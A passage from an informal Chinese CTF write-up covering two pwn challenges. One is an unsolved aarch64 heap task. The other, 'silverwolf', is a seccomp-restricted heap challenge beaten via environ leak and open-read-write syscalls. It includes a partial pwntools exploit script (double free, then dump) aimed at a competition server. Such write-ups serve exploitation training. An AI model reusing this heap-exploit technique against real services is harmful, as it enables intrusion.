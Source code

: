 ## channel

aarch64 pwn，我爬了

简单看了一下应该是个堆，但是👴的 qemu-aarch64 跑不起来就离谱，后面也没心思看题了，等过段时间再复现，简单看了一下 fmyy 师傅的解法，好像也不是特别难的题，~~但是那天下午👴实在是太困了去睡觉了，惭愧~~

# 0x02.场景实操 二阶卷

## silverwolf | Done

和卷一的 lonelywolf 基本上一模一样，但是开了seccomp，考虑通过 environ 走 ORW

还是套板子题，但是libc里面的open函数不知道为啥用不了，那就回归简朴的syscall即可

总之堆题就一句话：套！套就完事了，没有堆题是不能够套板子弄出来的，~~人ACM都有板子套，👴做pwn为什么不能套~~

```
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
p_name = './silverwolf'
p = remote('124.71.239.124', 21632)
e = ELF(p_name)
libc = ELF('./libc-2.27.so')

def cmd(command:int):
    p.recvuntil(b"Your choice: ")
    p.sendline(str(command).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())

def edit(content):
    cmd(2)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
    p.recvuntil(b"Content: ")
    p.sendline(content)

def dump():
    cmd(3)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')
    p.recvuntil(b"Content: ")

def free():
    cmd(4)
    p.recvuntil(b"Index: ")
    p.sendline(b'0')

def exp():
    for i in range(10):
        new(0x78)
    new(0x78)
    new(0x78)
    free()
    edit(b'arttnba3' * 2)
    free()
    dump()
```